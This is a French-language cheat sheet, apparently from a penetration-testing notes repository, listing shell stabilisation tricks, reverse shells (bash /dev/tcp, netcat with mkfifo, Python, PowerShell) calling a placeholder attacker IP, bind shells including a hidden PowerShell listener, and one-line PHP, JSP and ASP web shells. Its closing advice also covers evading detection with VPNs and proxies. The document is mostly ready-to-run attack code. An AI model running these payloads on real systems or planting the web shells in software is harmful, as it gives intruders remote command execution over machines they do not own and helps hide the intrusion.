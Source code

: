 # Shell Stable et Reverse Shell

## **Shell Stable**

### **1. Utilisation de `rlwrap`**

Si l'outil `rlwrap` est disponible sur la machine attaquante, tu peux améliorer l’interactivité du shell avec l'historique et les touches directionnelles :

```bash
rlwrap /bin/bash
```

### **2. Méthode Bash (sans Python)**

Si Python n'est pas disponible, mais que Bash est présent, utilise cette commande pour obtenir un shell interactif :

```bash
/bin/bash -i
```

### **3. Méthode Python**

Si Python est disponible sur la machine cible, utilise cette commande pour obtenir un shell interactif :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### **4. Méthode Python3**

Si Python3 est disponible, utilise cette commande :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### **5. Méthode avec `socat` (si disponible)**

Si `socat` est disponible sur la machine cible ou si tu peux l’installer, tu peux établir un shell stable :

```bash
socat file:`tty`,raw,echo=0 tcp-connect:<IP>:<PORT>
```

### **6. Méthode Netcat et `/dev/tcp`**

Si l’accès réseau est possible depuis le shell et que la machine cible permet la lecture via `/dev/tcp`, tu peux établir une connexion stable avec Netcat :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f
```

### **7. Utilisation de SSH**

Si tu as accès à une session avec un shell limité, tu peux essayer d’utiliser SSH pour obtenir un shell stable :

```bash
ssh user@localhost /bin/bash
```

***

## **Reverse Shell**

Un reverse shell est utilisé pour établir une connexion de la machine cible vers ton PC (machine attaquante). Voici des exemples pour différents langages.

### **1. Bash**

Commande 1 :

```bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'
```

Commande 2 :

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234 > /tmp/f
```

### **2. Python**

Si Python est disponible sur la cible :

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **3. Python3**

Si Python3 est disponible :

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty;pty.spawn("/bin/bash")'
```

### **4. PowerShell**

Utilise cette commande si PowerShell est présent :

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```

***

## **Bind Shell**

Un bind shell permet à ton PC de se connecter à un port ouvert sur la machine cible.

### **1. Bash**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -lvp 1234 > /tmp/f
```

### **2. Python**

```python
python3 -c 'import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();while True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())'
```

### **3. PowerShell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

***

## **Web Shell**

Un web shell est une interface web permettant d’exécuter des commandes sur un serveur via un navigateur.

### **1. PHP**

```php
<?php system($_REQUEST["cmd"]); ?>
```

### **2. JSP**

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

### **3. ASP**

```asp
<% eval request("cmd") %>
```

***

## **Bonnes Pratiques**

1. **Obtenir des autorisations** :
   * Toujours travailler dans un cadre légal et éthique. Obtenez des autorisations explicites avant de tester des systèmes.
2. **Minimiser les traces** :
   * Configurez des délais entre les connexions et utilisez des outils comme des VPN ou des proxys pour éviter d’attirer l’attention.
3. **Analyser les environnements** :
   * Avant d’exécuter un shell interactif, vérifiez les configurations locales pour éviter de briser les sessions existantes.
